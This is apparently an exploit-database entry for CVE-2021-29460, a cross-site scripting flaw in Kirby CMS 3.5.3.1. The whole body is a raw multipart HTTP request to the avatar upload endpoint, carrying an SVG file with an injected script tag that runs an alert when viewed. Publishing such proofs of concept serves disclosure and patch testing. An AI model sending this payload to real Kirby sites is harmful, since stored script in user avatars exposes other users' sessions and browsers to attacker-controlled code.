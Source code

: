 XSS
---

    # Exploit Title: Kirby CMS 3.5.3.1 - 'file' Cross-Site Scripting (XSS)
    # Date: 21-04-2021
    # Exploit Author: Sreenath Raghunathan
    # Vendor Homepage: https://getkirby.com/
    # Software Link: https://github.com/getkirby/kirby
    # Version: 3.5.3.1(REQUIRED)
    # CVE : CVE-2021-29460

    POST /api/users/<userid>/avatar HTTP/1.1
    Host: <host>
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    X-CSRF: <redacted>
    Content-Type: multipart/form-data;
    boundary=---------------------------286121627839893676321700902916
    Content-Length: 563

    Connection: close
    Cookie:
    <redacted>



    -----------------------------286121627839893676321700902916
    Content-Disposition: form-data; name="file"; filename="svgxss.svg"
    Content-Type: image/svg+xml

    <?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
    "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

    <svg version="1.1" baseProfile="full" ns="http://www.w3.org/2000/svg">
      <polygon id="triangle" points="0,0 0,500 500,0" fill="#009900"
    stroke="#004400"/>
      "><script>alert(1)</script>
    </svg>
    -----------------------------286121627839893676321700902916--
